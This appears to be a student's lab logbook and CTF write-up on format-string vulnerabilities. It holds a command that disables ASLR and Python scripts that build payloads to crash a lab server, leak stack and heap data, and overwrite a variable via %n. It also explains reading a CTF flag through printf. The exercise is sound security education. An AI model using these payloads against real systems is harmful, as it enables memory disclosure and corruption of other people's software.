

# Log Book 7

## Environment Setup
### Turning off countermeasure
For this lab, we need to disable security mechanisms that make format-strings attacks more difficult.

#### Address Space Randomization
Deactivates address space randomization making guessing addresses more easier which is one of the critical steps of the format-string attack.

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

## Task 1
For this task we had to construct a simple payload to exploit the format-string vulnerability in the server. By analyzing the program source code we can see that the program reads user input into the ```buf``` variable. Then, this data is passed to ```myprintf()``` to print out the data. We were able to crash the server by filling the buf variable with multiple ```%s```.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

for i in range(0, N, 2):
  content[i:i+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```



## Task 2
### Task 2A
The objective of this task is to print out the data on the stack and to print out the first four bytes of our input. To do this we started by choosing some unique numbers (4 bytes) so we can immediately tell when they are printed out. We chose ```0xaabbccdd```. The rest of the payload is filled with 64 ```%x``` format specifiers.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaabbccdd
content[0:4]  =  (number).to_bytes(4,byteorder='little')

n = 64
x = "%x"
for i in range(4, 4 + 2 * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


### Task 2B
For this task there was a secret message string stored in the heap area that we had to find. For this task, the first four bytes of the payload were filled with the secret message address that was given. Then, our input is followed by 63 ```%x``` format specifiers which will print out the data on the stack we finish by adding a ```%s``` format specifier that will print the secret message string, using the address stored in the beginning of our buffer.

The secret message string was: "A secret message"

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_addr  = 0x080b4008
content[0:4]  =  (secret_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


## Task 3
### Task 3A
In this sub-task we are asked to change the target value to a different value. To achieve this, we started by setting the first four bytes of our payload as the first bytes of the target address given to us. Next, we fill the payload with 63 ```%x``` format specifiers followed by a ```%n``` which will load a different value to the variable pointed by the target's reference.

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n = 64 - 1
x = "%x "
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

s_offset = skip_b + len(x) * n
content[s_offset:s_offset+2] = ("%n").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


### Task 3B
This sub-task is similar to the previous one. However, it specifies the final value of the target variable which is ```0x5000```. This time our payload starts the same (with the target's reference first).

We make use of left-padding on number printing to get the needed number of chars printed. The number of chars printed is the number that will be stored on the target variable.

```python
#!/usr/bin/python3
import sys
from math import floor

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_addr  = 0x080e5068
content[0:4]  =  (target_addr).to_bytes(4,byteorder='little')

# skip to first to input init
n_bytes_to_print = 0x5000
n = 64 - 1
x_size = int(floor(n_bytes_to_print/n))
x = "%0" + str(x_size) + "x"
skip_b = 4
for i in range(skip_b, skip_b + len(x) * n, len(x)):
  content[i:i+len(x)] = (x).encode('latin-1')

# write number of written bytes to var
s_offset = skip_b + len(x) * n
# need to subtract 4 because it will write 4 bytes for the string
remaining = (n_bytes_to_print - (x_size * n)) - 4
n_str = "0"*remaining + "%n"
content[s_offset:s_offset+len(n_str)] = (n_str).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```


---

## CTF7

### Challenge 1
By analyzing the output of the ```checksec``` command, we can conclude that the Position Independent Executable (PIE) is not active, which means that memory allocation is not being randomized.

Looking at the code, we can see that the vulnerability is a format string since the functions ```scanf()``` and ```printf()``` are used to retrieve input from the user.
The vulnerability allows us to read and write to variables/registers that we aren't supposed to, thus allowing us the read the flag global variable.

By using ```%s``` on function ```printf()``` format string, we can read the contents of the flag char array. To do this, we just need to obtain the address of said variable.


The address of the flag is ```0x804c060```

### Challenge 2
...